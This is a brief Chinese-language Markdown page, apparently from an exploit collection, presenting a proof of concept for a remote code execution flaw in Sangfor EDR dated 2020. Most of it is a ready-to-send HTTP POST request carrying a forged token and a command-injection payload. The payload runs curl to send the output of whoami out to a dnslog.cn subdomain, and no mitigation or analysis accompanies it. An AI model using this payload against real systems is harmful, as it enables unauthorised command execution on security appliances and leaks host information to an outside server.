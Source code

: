 # 深信服EDR RCE漏洞

> 2020.9

## #Poc

```http
POST /api/edr/sangforinter/v2/cssp/slog_client?token=eyJtZDUiOnRydWV9
Host: x.x.x.x
Connection: close
Content-Length:65

{"params": "w=123\"'1234123'\"|curl `whoami`.dnslog.cn"}
```

![img](https://tva1.sinaimg.cn/large/007S8ZIlgy1gjxxvwdahcj30u00asgne.jpg)


